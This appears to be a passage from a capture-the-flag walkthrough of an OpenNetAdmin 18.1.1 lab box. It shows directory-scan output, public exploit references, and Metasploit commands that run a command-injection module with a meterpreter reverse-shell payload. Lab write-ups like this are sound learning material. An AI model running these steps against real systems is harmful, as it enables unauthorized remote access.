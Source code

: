 		/ona/include/adodb5/datadict/datadict-mysql.inc.php
		/ona/include/adodb5/lang/adodb-eo.inc.php
		/ona/logout.php
		/ona/config/auth_ldap.config.php
		/ona/shell.php
		
		Files found with a 500 responce:
		
		/ona/include/xajax_drag/drag.inc.php
		/ona/include/xajax_suggest/suggest.inc.php
		/ona/modules/ona/block.inc.php
		/ona/include/functions_db.inc.php
		/ona/modules/ona/dhcp_server.inc.php
		/ona/include/xajax_setup.inc.php
		/ona/modules/ona/domain.inc.php
		/ona/modules/ona/domain_server.inc.php
		/ona/include/auth/ldap.class.php
		/ona/modules/ona/configuration.inc.php
		/ona/include/xajax_webwin/webwin.inc.php
		/ona/modules/ona/custom_attribute.inc.php
		/ona/modules/ona/message.inc.php
		/ona/modules/ona/subnet.inc.php
		/ona/modules/ona/dhcp_entry.inc.php
		/ona/modules/ona/dhcp_failover.inc.php
		/ona/modules/ona/dhcp_pool.inc.php
		/ona/plugins/ona_nmap_scans/install.php
		/ona/plugins/ona_nmap_scans/ona_nmap_scans.inc.php
		/ona/include/adodb/datadict/datadict-firebird.inc.php
		/ona/include/adodb5/datadict/datadict-firebird.inc.php
		/ona/config/config.inc.php
		
		
		--------------------------------
		```
		![Screenshot-20200509000509-1226x432.png](./resources/d313d186a2cf43538031c27912670cba.png)
		
	3. Search for `opennetadmin v18.1.1 exploit` finds [OpenNetAdmin 18.1.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47691) and [OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)](https://www.exploit-db.com/exploits/47772) and [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/opennetadmin_ping_cmd_injection)
	4. Metasploit
		```
		sudo msfconsole
		use exploit/unix/webapp/opennetadmin_ping_cmd_injection
		set rhosts 10.10.10.171
		set lhost tun0
		set lport 56762
		set payload linux/x86/meterpreter_reverse_tcp
		run
		```